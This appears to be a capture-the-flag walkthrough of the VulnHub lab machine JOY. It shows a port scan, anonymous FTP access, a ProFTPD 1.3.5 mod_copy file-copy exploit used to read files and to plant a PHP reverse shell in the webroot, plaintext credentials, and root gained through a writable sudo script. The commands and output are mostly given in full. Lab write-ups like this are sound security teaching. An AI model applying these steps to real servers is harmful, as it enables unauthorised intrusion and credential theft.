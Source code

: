 https://esc.sh/blog/proftp-vulnerability-could-allow-an-attacker-to-gain-a-shell-in-your-server/
https://www.hackingarticles.in/digitalworld-local-joy-vulnhub-walkthrough/

# Scan

    ┌──(kali㉿kali)-[~]
    └─$ sudo nmap -sT -A -Pn -n -p- 192.168.110.18
    Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-16 16:11 CEST
    Nmap scan report for 192.168.110.18
    Host is up (0.00029s latency).
    Not shown: 65523 closed ports
    PORT    STATE SERVICE     VERSION
    21/tcp  open  ftp         ProFTPD 1.2.10
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    | drwxrwxr-x   2 ftp      ftp          4096 Jan  6  2019 download
    |_drwxrwxr-x   2 ftp      ftp          4096 Jan 10  2019 upload
    22/tcp  open  ssh         Dropbear sshd 0.34 (protocol 2.0)
    25/tcp  open  smtp        Postfix smtpd
    |_smtp-commands: JOY.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, 
    | ssl-cert: Subject: commonName=JOY
    | Subject Alternative Name: DNS:JOY
    | Not valid before: 2018-12-23T14:29:24
    |_Not valid after:  2028-12-20T14:29:24
    |_ssl-date: TLS randomness does not represent time
    80/tcp  open  http        Apache httpd 2.4.25
    | http-ls: Volume /
    | SIZE  TIME              FILENAME
    | -     2016-07-19 20:03  ossec/
    |_
    |_http-server-header: Apache/2.4.25 (Debian)
    |_http-title: Index of /
    110/tcp open  pop3        Dovecot pop3d
    |_pop3-capabilities: AUTH-RESP-CODE PIPELINING CAPA TOP STLS SASL RESP-CODES UIDL
    |_ssl-date: TLS randomness does not represent time
    139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    143/tcp open  imap        Dovecot imapd
    |_imap-capabilities: capabilities ENABLE more have post-login Pre-login LITERAL+ LOGINDISABLEDA0001 OK listed SASL-IR IDLE IMAP4rev1 ID STARTTLS LOGIN-REFERRALS
    |_ssl-date: TLS randomness does not represent time
    445/tcp open  netbios-ssn Samba smbd 4.5.12-Debian (workgroup: WORKGROUP)
    465/tcp open  smtp        Postfix smtpd
    |_smtp-commands: JOY.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, 
    | ssl-cert: Subject: commonName=JOY
    | Subject Alternative Name: DNS:JOY
    | Not valid before: 2018-12-23T14:29:24
    |_Not valid after:  2028-12-20T14:29:24
    |_ssl-date: TLS randomness does not represent time
    587/tcp open  smtp        Postfix smtpd
    |_smtp-commands: JOY.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, 
    | ssl-cert: Subject: commonName=JOY
    | Subject Alternative Name: DNS:JOY
    | Not valid before: 2018-12-23T14:29:24
    |_Not valid after:  2028-12-20T14:29:24
    |_ssl-date: TLS randomness does not represent time
    993/tcp open  ssl/imaps?
    | ssl-cert: Subject: commonName=JOY/organizationName=Good Tech Pte. Ltd/stateOrProvinceName=Singapore/countryName=SG
    | Not valid before: 2019-01-27T17:23:23
    |_Not valid after:  2032-10-05T17:23:23
    |_ssl-date: TLS randomness does not represent time
    995/tcp open  ssl/pop3s?
    | ssl-cert: Subject: commonName=JOY/organizationName=Good Tech Pte. Ltd/stateOrProvinceName=Singapore/countryName=SG
    | Not valid before: 2019-01-27T17:23:23
    |_Not valid after:  2032-10-05T17:23:23
    |_ssl-date: TLS randomness does not represent time
    MAC Address: 08:00:27:4A:17:2D (Oracle VirtualBox virtual NIC)
    Device type: general purpose
    Running: Linux 3.X|4.X
    OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
    OS details: Linux 3.2 - 4.9
    Network Distance: 1 hop
    Service Info: Hosts: The,  JOY.localdomain, 127.0.1.1, JOY; OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Host script results:
    |_clock-skew: mean: -40m01s, deviation: 4h37m07s, median: 1h59m57s
    |_nbstat: NetBIOS name: JOY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
    | smb-os-discovery: 
    |   OS: Windows 6.1 (Samba 4.5.12-Debian)
    |   Computer name: joy
    |   NetBIOS computer name: JOY\x00
    |   Domain name: \x00
    |   FQDN: joy
    |_  System time: 2021-04-17T00:11:39+08:00
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    | smb2-security-mode: 
    |   2.02: 
    |_    Message signing enabled but not required
    | smb2-time: 
    |   date: 2021-04-16T16:11:39
    |_  start_date: N/A

    TRACEROUTE
    HOP RTT     ADDRESS
    1   0.29 ms 192.168.110.18

    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 44.14 seconds


# FTP anonymous connexion

Get Patrick's Directory


    └─$ ftp 192.168.110.62
    Connected to 192.168.110.62.
    220 The Good Tech Inc. FTP Server
    Name (192.168.110.62:kali): anonymous
    331 Anonymous login ok, send your complete email address as your password
    Password:
    230 Anonymous access granted, restrictions apply
    Remote system type is UNIX.
    Using binary mode to transfer files.
    ftp> cd upload
    ftp> get directory
    └─$ cat directory
    -rw-r--r--  1 patrick patrick  407 Jan 27  2019 version_control

# Real users

    └─$ enum4linux -a 192.168.110.18
    Use of uninitialized value $users in pattern match (m//) at ./enum4linux.pl line 890.
    [+] Enumerating users using SID S-1-22-1 and logon username '', password ''
    S-1-22-1-1000 Unix User\patrick (Local User)
    S-1-22-1-1001 Unix User\ftp (Local User)

# Exploit ProFTPd 1.3.5 - File Copy 

<https://www.exploit-db.com/exploits/36742>


    └─$ telnet 192.168.110.18 21   
    Trying 192.168.110.18...
    Connected to 192.168.110.18.
    Escape character is '^]'.
    220 The Good Tech Inc. FTP Server
    site cpfr /home/patrick/version_control
    350 File or directory exists, ready for destination name
    site cpto /home/ftp/upload/version_control
    250 Copy successful
    └─$ cat version_control                                     
    Version Control of External-Facing Services:

    Apache: 2.4.25
    Dropbear SSH: 0.34
    ProFTPd: 1.3.5
    Samba: 4.5.12

    We should switch to OpenSSH and upgrade ProFTPd.

    Note that we have some other configurations in this machine.
    1. The webroot is no longer /var/www/html. We have changed it to /var/www/tryingharderisjoy.
    2. I am trying to perform some simple bash scripting tutorials. Let me see how it turns out.


## Upload reverse shell


    └─$ telnet 192.168.110.18 21   
    Trying 192.168.110.18...
    Connected to 192.168.110.18.
    Escape character is '^]'.
    220 The Good Tech Inc. FTP Server
    site cpfr /home/ftp/upload/shell.php
    350 File or directory exists, ready for destination name
    site cpto /var/www/tryingharderisjoy/shell.php
    250 Copy successful

## Escale privileges

    www-data@JOY:/var/www/tryingharderisjoy/ossec$ cat patricksecretsofjoy
    cat patricksecretsofjoy
    credentials for JOY:
    patrick:apollo098765
    root:howtheheckdoiknowwhattherootpasswordis
    www-data@JOY:/var/www/tryingharderisjoy/ossec$ su patrick
    su patrick
    Password: apollo098765
    patrick@JOY:~$ sudo -l
    sudo -l
    Matching Defaults entries for patrick on JOY:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
    User patrick may run the following commands on JOY:
        (ALL) NOPASSWD: /home/patrick/script/test
    patrick@JOY:~$ cat .bash_history
    chmod 000 script
    patrick@JOY:~$ ls -al
    d---------  2 root    root     4096 Jan  9  2019 script

## Get root

    patrick@JOY:~$ mv script s1
    mv script s1
    patrick@JOY:~$ mkdir script
    mkdir script
    patrick@JOY:~$ cd script
    cd script
    patrick@JOY:~/script$ ls
    ls
    patrick@JOY:~/script$ echo '#!/bin/bash' > test    
    echo '#!/bin/bash' > test
    patrick@JOY:~/script$ echo '/bin/bash' >> test
    echo '/bin/bash' >> test
    patrick@JOY:~/script$ chmod +x test
    chmod +x test
    patrick@JOY:~/script$ sudo /home/patrick/script/test
    sudo /home/patrick/script/test
    root@JOY:/home/patrick/script# id
    id
    uid=0(root) gid=0(root) groups=0(root)

